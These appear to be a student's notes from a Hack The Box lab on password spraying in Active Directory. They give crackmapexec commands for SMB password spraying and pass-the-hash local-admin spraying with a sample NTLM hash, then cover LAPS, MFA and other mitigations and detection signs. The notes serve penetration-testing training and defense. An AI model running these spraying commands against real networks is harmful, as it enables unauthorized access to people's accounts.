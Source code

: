 **Crackmapexec and Filter logon failures**

Do a password spraying attack first to see if there are any hits

```bash
z0mb34r@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```

Then validate by using the credentials and crackmapexec together

```bash
z0mb34r@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```

**Local Admin Spraying with Crackmapexec**

```bash
z0mb34r@htb[/htb]$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

** This technique is quite noisy, and isn’t a good choice if you want stealth.

** Remediation is possible with the free MS tool Local Administrator Password Solution (LAPS) to have AD manage local admin passwords and enforce a unique password on each host that rotates on a set interval.

## Internal Password Spraying with Windows

- After getting a foothold on a domain joned windows host, the `DomainPasswordSpray` tool is highly effective.
- If we are authenticated to the domain, the tool will automatically generate a user list from Active Directory, query the domain password policy, and exclude user accounts within one attempt of locking out.
- If we aren’t authenticated to the domain, we can also provide the tool with a user list

**MITIGATION**

While no single solution will entirely prevent the attack, a defense-in-depth approach will render password spraying attacks extremely difficult.

| Technique | Description |
| --- | --- |
| `Multi-factor Authentication` | Multi-factor authentication can greatly reduce the risk of password spraying attacks. Many types of multi-factor authentication exist, such as push notifications to a mobile device, a rotating One Time Password (OTP) such as Google Authenticator, RSA key, or text message confirmations. While this may prevent an attacker from gaining access to an account, certain multi-factor implementations still disclose if the username/password combination is valid. It may be possible to reuse this credential against other exposed services or applications. It is important to implement multi-factor solutions with all external portals. |
| `Restricting Access` | It is often possible to log into applications with any domain user account, even if the user does not need to access it as part of their role. In line with the principle of least privilege, access to the application should be restricted to those who require it. |
| `Reducing Impact of Successful Exploitation` | A quick win is to ensure that privileged users have a separate account for any administrative activities. Application-specific permission levels should also be implemented if possible. Network segmentation is also recommended because if an attacker is isolated to a compromised subnet, this may slow down or entirely stop lateral movement and further compromise. |
| `Password Hygiene` | Educating users on selecting difficult to guess passwords such as passphrases can significantly reduce the efficacy of a password spraying attack. Also, using a password filter to restrict common dictionary words, names of months and seasons, and variations on the company's name will make it quite difficult for an attacker to choose a valid password for spraying attempts. |

**DETECTION**

Some indicators of external password spraying attacks include many account lockouts in a short period, server or application logs showing many login attempts with valid or non-existent users, or many requests in a short period to a specific application or URL.

## External Password Spraying
